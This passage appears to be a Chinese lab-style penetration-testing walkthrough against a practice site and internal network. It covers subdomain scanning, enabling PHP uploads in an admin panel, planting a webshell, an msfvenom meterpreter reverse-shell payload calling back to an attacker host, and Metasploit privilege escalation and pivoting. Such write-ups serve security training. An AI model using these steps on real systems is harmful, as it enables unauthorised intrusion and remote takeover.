 ```python
                    files.write(info + "\n")
                    print(info)
                except Exception :
                    error = ip + " --- " + host + " --- 访问失败！~"
                    print(error)
print("====================================匹 配 成 功 的 列 表====================================")
for i in lists:
    print(i)

```

开始扫描：

```
python3 subdomain.py
```

![image-20230310120916932](https://s2.loli.net/2023/03/11/N2escS48yJ1EPVM.png)

扫描到子域名`admin.webhack123.com`

使用刚才获取的用户名和密码进行登录

5、在后台闲逛，发现在系统设置-基本设置页面里可以进行文件上传

修改允许文件上传类型，添加php类型

保存后上传一句话木马

复制图片地址后，上菜刀

![image-20230310172706961](https://s2.loli.net/2023/03/11/4uVzweIR8UC3lho.png)

6、获取shell

```shell
# 生成木马
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.12.131 lport=4444 -f exe > shell.exe
```

将生成的shell.exe通过菜刀上传，运行木马，kali开启监听

```shell
use exploit/multi/handler
set lhost 192.168.12.131
set lport 4444
set payload windows/x64/meterpreter_reverse_tcp
run
```

![image-20230310181238593](https://s2.loli.net/2023/03/11/elaCv7Qj85LUx1f.png)

7、内网信息收集

```shell
# 获取当前用户
meterpreter > getuid
# 尽可能提权
meterpreter > getprivs
# 通过各种攻击向量来提权
meterpreter > getsystem

# 查看网卡信息
meterpreter > ifconfig

# 查看路由信息
meterpreter > run autoroute -p
# 自动添加路由
meterpreter > run post/multi/manage/autoroute

```